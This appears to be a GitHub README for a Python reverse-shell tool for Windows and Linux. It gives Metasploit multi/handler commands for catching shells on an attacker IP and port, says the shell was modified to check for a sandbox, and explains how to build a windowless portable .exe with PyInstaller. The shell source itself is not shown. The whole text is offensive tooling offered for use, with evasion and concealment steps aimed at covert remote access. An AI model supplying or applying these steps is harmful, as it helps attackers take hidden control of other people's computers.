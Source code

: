 
# Python Reverse Shell for Windows / Linux
Reverse Shell written in Python3 - Modified version of trackmastersteve/shell

You can take advantage of post exploitation modules in Metasploit by using:

    msf> use exploit/multi/handler 
    msf> set PAYLOAD [linux/shell_reverse_tcp | windows/shell_reverse_tcp]
    msf> set LHOST <Attacker IP>      
    msf> set LPORT <Attacker Port>    
    msf> set ExitOnSession false
    msf> run -j

Modified for a less fragile shell and a check for sandbox

To use on Windows, create an executable using pyinstaller

    python -m pip install pyinstaller
    pyinstaller -wF ./reverse_shell.py

Useful PyInstaller Options:
> -w removes pop up windows
> -F outputs a portable .exe file in the ./dist/ folder
